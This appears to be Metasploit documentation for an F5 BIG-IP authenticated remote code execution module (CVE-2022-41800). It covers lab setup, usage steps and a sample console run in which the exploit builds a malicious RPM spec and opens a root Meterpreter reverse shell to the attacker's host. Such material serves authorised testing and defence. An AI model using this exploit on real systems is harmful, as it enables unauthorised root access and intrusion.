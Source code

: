 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800`
4. Do `set RHOST <target>` / `set HttpUsername admin` / `set HttpPassword <thepasswordyouchose>`
5. Do: `run`
6. You should get a session

## Options

### `HttpUsername` / `HttpPassword`

The account to authorize as - requires console access. The `admin` account (which
is the default `HttpUsername`) works great, if you have the password.

## Scenarios

### F5 Big-IP 17.0.0.1

This should be the normal experience:

```
msf > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162

msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword iagotestbigip
HttpPassword => mybigippassword

msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set VERBOSE true
VERBOSE => true

msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Creating an .rpmspec file on the target...
[*] Created spec file: /var/config/rest/node/tmp/2fadbb5d-ed94-4b23-ba57-2f0d273d2bdc.spec
[*] Building the RPM to trigger the payload...
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/2fadbb5d-ed94-4b23-ba57-2f0d273d2bdc.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/wOXt3-4.1.3-0.8.6.noarch.rpm
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.162:38556) at 2022-11-14 15:14:23 -0800

meterpreter > getuid
Server username: root
```
